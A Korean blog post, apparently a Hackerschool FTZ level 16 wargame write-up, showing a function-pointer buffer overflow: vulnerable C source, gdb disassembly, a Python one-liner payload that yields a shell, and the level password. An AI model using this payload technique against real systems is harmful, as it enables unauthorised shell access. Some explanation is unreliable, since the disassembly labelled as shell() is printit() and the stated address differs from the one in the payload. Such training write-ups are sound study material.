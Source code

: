 ```yaml
---
date: '2022-10-06'
before : '2022-10-05'
after : '2022-10-07'
title: '시스템 해킹(12) : 해커스쿨 FTZ 레벨 16'
categories: ['C-SEC', 'KOR']
summary: ''
thumbnail: './C_Sec.jpg'
---
```

### 0. 들어가기 전에.
여기까지 오니 슬슬 disas해서 스택을 살펴보는 과정은 (적어도 간단한 프로그램에선) 익숙해지는 것 같다!

### 1. Level 16

오늘은 함수 포인터에 관한 문제다. 소스코드를 확인해보자!
```
#include <stdio.h>

void shell() {

  setreuid(3097,3097);

  system("/bin/sh");

}

void printit() {

  printf("Hello there!\n");

}

main()

{ int crap;

  void (*call)()=printit;

  char buf[20];

  fgets(buf,48,stdin);

  call();

}
```
void(*call)()=printit 부분에서 printit의 포인터를 가져와 call()로 실행시켜준다. 즉, 그냥 printit을 실행하는 함수이다. fgets에서 48바이트 입력받으니 오버플로우는 충분히 가능하다. 그럼 우리가 해야 할 일은?


**shell 함수의 메모리 주소를 찾아내 *call에 덮어씌우면 된다!**

gdb에서 disas shell을 해보니 :
```
0x08048500 <printit+0>: push   ebp
0x08048501 <printit+1>: mov    ebp,esp
0x08048503 <printit+3>: sub    esp,0x8
0x08048506 <printit+6>: sub    esp,0xc
0x08048509 <printit+9>: push   0x80485c0
0x0804850e <printit+14>:        call   0x80483a4 <printf>
0x08048513 <printit+19>:        add    esp,0x10
0x08048516 <printit+22>:        leave
0x08048517 <printit+23>:        ret

```
ebp가 08048500을 가리키는 것을 볼 수 있다. 따라서 그냥 저 주소를 BOF공격으로 넣어주면 된다. 우리 배열부터 call 포인터까지의 거리는 main을 disas해보면 알 수 있을것이다 : 
```
0x08048518 <main+0>:    push   ebp
0x08048519 <main+1>:    mov    ebp,esp
0x0804851b <main+3>:    sub    esp,0x38
0x0804851e <main+6>:    mov    DWORD PTR [ebp-16],0x8048500
0x08048525 <main+13>:   sub    esp,0x4
0x08048528 <main+16>:   push   ds:0x80496e8
0x0804852e <main+22>:   push   0x30
0x08048530 <main+24>:   lea    eax,[ebp-56]
0x08048533 <main+27>:   push   eax
0x08048534 <main+28>:   call   0x8048384 <fgets>
0x08048539 <main+33>:   add    esp,0x10
0x0804853c <main+36>:   mov    eax,DWORD PTR [ebp-16]
0x0804853f <main+39>:   call   eax
0x08048541 <main+41>:   leave
0x08048542 <main+42>:   ret
0x08048543 <main+43>:   nop
0x08048544 <main+44>:   nop
0x08048545 <main+45>:   nop
0x08048546 <main+46>:   nop
0x08048547 <main+47>:   nop
0x08048548 <main+48>:   nop
0x08048549 <main+49>:   nop
```
저번 문제와 똑같이 거리는 40이다. 그럼 공격 코드도 다음과 같을 것이다 :
```
(python -c 'print "A"*40+"\xd0\x84\x04\x08"'; cat) | ./attackme
```
실행하면 Shell을 얻을 수 있다! 이 문제 또한 간단한 것 같다.


비밀번호 : king poetic
---
## Source

- 해커스쿨 FTZ
- Me!
